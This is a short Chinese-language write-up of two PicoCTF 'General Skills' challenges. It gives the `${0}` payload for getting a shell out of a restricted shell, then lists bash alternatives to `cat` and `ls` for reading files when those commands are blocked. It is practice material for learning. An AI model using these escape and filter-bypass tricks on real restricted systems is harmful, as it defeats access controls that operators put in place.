 ```yaml
---
title: PicoCTF - Special & Specialer
tags: [PicoCTF, CTF, General Skill]

category: "Security/Practice/PicoCTF/General Skills"
---
```


# PicoCTF - Special & Specialer
###### tags: `PicoCTF` `CTF` `General Skill`

## Recon
這兩題都蠻有趣的，感覺打提權應該會用到，所以一起紀錄，第一題是要get shell，關於這一題我是直接看學長之前解題的WP，payload是`${0}`就直接拿到shell了，詳細的原理我也不清楚，第二題比較簡單，就直接用網路的資源替換一下`ls, cat`這兩個指令就拿到flag了

## Exploit
* 代替`cat`的方法：
    ```bash
    # Method 1
    $ while read line; do
    while> echo $line;
    while> done <{filename}}

    # Method 2
    $ exec 3<{filename}} # Assign file descriptor 3 for reading
    $ while read -u 3 line; do
    while> echo $line
    while> done

    # Method 3
    $ echo "$(<{filename})"
    ```

* 代替`ls`的方法
    ```bash
    # Method 1
    $ echo *

    # Method 2
    $ echo */*

    # Method 3
    $ echo * .*

    # Method 4
    $ dir

    # Method 5
    $ printf '%s\n' *

    # Method 6
    $ grep -l '.*' ./*

    # Method 7
    $ find .

    # Method 8
    $ stat -c '%s %A %n' *

    # Method 9
    $ lsattr ./*

    # Method 10
    $ vim .
    ```

## Reference
[Cat without cat on the commandline](https://jarv.org/posts/cat-without-cat/)
[Alternatives to the 'ls' command to list the contents of a directory](https://ubunlog.com/en/alternativas-al-comando-ls/)